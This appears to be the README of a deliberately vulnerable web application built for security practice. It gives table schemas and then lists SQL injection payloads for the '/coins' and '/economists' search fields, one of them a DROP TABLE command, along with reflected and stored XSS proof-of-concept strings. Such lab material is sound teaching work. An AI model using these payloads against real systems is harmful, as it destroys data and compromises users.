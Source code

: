 ```sql
CREATE TABLE TRACKAD (
    id INT AUTO_INCREMENT PRIMARY KEY,
    user VARCHAR(255),
    date DATETIME,
    url VARCHAR(255)
);

```
## Economists Table

```sql
CREATE TABLE economists (id INT AUTO_INCREMENT PRIMARY KEY,name VARCHAR(255),image_url VARCHAR(255),short_info TEXT);
```


# Vulnerabilities

## SQL Injection

### Insert these commands to search fields in '/coins' and '/economists' pages

```sql
';INSERT INTO coins (name, url) values ('btc','btc.org');--
```

```sql
';DROP TABLE coins;--
```


## Reflected XSS

### Insert this HTML command to keyword search field

```html
<img src=1 onerror="alert('hacked')"/>
```

## Stored XSS

### Insert this HTML command to comment

```html
<script>alert('hacked')</script>
```


# Data
